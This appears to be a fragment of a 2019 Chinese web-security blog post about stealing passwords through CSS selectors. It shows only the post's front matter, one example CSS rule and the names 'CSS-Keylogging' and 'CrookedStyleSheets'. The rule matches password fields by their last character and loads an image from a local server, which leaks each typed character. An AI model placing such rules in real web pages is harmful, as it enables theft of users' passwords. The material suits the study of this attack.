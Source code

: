 ```yaml
---
layout:     post
title:      一种通过CSS选择器盗取用户密码的攻击方式
subtitle:   web安全,不一样的css
date:       2019-03-12 13:57
author:     Youga
header-img: https://static.cjwddz.cn/blog/img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
  - web
  - security
---
```


input[type="password"][value$="1"] { background-image: url("http://localhost:3000/1"); }

CSS-Keylogging

CrookedStyleSheets